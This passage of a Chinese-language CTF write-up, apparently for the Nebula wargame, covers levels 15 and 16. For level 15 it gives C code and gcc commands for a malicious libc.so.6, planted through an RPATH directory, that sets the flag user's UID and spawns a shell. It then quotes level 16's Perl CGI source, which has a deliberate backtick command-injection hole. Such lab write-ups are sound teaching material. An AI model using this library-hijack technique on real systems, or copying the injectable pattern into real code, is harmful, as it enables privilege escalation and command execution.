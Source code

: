 可以发现有`RPATH`变量值为`/var/tmp/flag15`，查看`man dlopen`可以发现`RPATH`在连接器寻找目录的首位，因此我们可以构造自己的`libc.so.6`动态链接文件放在`/var/tmp/flag15`目录下。动态链接文件载入时会首先执行`_init`函数，因此我们可以重写此函数来达到目的。（重写`__libc_start_main`函数也可以）

``` c
__attribute__((constructor)) void __myinit(void) {
	setresuid(984, 984, 984);
	system("/bin/bash");
}
```

采用如下指令编译：

	gcc -shared -fPIC -o libc.so.6 libc1.c

运行flag15后发现提示：

> /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)

查阅资料，需要编写一version文件，在链接时加入版本信息：

	$ cat ver
	GLIBC_2.0 {};
	$ gcc -shared -fPIC -o libc.so.6 -Wl,--version-script,ver libc1.c

运行flag15后又现提示：

> /var/tmp/flag15/libc.so.6: version `GLIBC_2.1.3' not found (required by /var/tmp/flag15/libc.so.6)

经查阅资料后，发现原因可能为我们自己编写`libc.so.6`覆盖了原本的`libc.so.6`，它仅会加载一次；而我们自己编写的`libc.so.6`要用到本来的`libc.so.6`的函数，所以在运行的时候会提示找不到。解决方法是在编译`libc.so.6`的时候采用静态链接的方法。

	gcc -shared -fPIC -o libc.so.6 -static-libgcc -Wl,--version-script,ver,-Bstatic libc1.c

之后即可正确运行flag15程序，拿到shell。

---

## Level16

题目源码：

``` perl
#!/usr/bin/env perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub login {
  $username = $_[0];
  $password = $_[1];

  $username =~ tr/a-z/A-Z/; # conver to uppercase
  $username =~ s/\s.*//;        # strip everything after a space

  @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
  foreach $line (@output) {
      ($usr, $pw) = split(/:/, $line);
  

      if($pw =~ $password) {
          return 1;
      }
  }

  return 0;
}

sub htmlz {
```